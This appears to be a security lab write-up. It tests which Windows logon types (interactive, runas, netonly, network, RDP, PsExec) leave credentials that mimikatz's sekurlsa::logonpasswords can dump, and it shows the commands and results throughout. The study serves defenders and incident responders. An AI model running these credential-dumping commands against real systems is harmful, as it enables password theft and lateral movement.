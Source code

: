 ```yaml
---
description: >-
  This lab explores/compares when credentials are susceptible to credential
  dumping.
---
```


# Network vs Interactive Logons

Tested against Microsoft Windows 7 Professional 6.1.7601 Service Pack 1 Build 7601

## Interactive Logon \(2\): Initial Logon

Let's make a base password dump using mimikatz on the victim system to see what we can get before we start logging on to it using other methods such as runas, psexec, etc. To test this, the victim system was rebooted and no other attempts to login to the system were made except for the interactive logon to get access to the console:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test1.png)

## Interactive Logon \(2\) via runas and Local Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
runas /user:low cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test2.png)

## Interactive Logon \(2\) via runas and Domain Account

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
runas /user:spot@offense cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test3.png)

## New Credentials \(9\) via runas with /netonly

```csharp
runas /user:low /netonly cmd
```

Note that event logs show the logon of type 9 for the user `mantvydas`, although we requested to logon as the user `low`:

![](../../.gitbook/assets/pwdump-runas-netonly.png)

Logon type 9 means that the any network connections originating from our new process will use the new credentials, which in our case are credentials of the user `low`. These credentials, get cached:

![](../../.gitbook/assets/pwdump-runas-netonly-dump.png)

## Network Logon \(3\) with Local Account

Imagine an Incident Responder is connecting to a victim system using that machine's local account remotely to inspect it for a compromise using pth-winexe:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U back%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:

![](../../.gitbook/assets/pwdump-logon10.png)

## PsExec From An Elevated Prompt

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/pwdump-psexec-no-atlernate-credentials.png)

Mimikatz shows no credentials got stored in memory for `offense\spot`

Note how all the logon events are of type 3 - network logons and read on to the next section.

## PsExec + Alternate Credentials

{% code-tabs %}
{% code-tabs-item title="responder@victim" %}
```csharp
.\PsExec64.exe \\10.0.0.2 -u offense\spot -p password cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-psexec-supplied-creds.png)

Looking at the event logs, a logon type 2 \(interactive\) is observed amongst the network logon 3, which explains why credentials were successfully dumped in the above test:

![](../../.gitbook/assets/pwdump-psexec-interactive-logon.png)

![](../../.gitbook/assets/pwdump-psexec-eventlog.png)

## Observations

Network logons do not get cached in memory except for when using `PsExec` with alternate credentials specified via the `-u` switch. 

Interactive and remote interactive logons do get cached and can get easily dumped with Mimikatz.

{% embed url="https://digital-forensics.sans.org/blog/2012/02/21/protecting-privileged-domain-account-safeguarding-password-hashes" %}



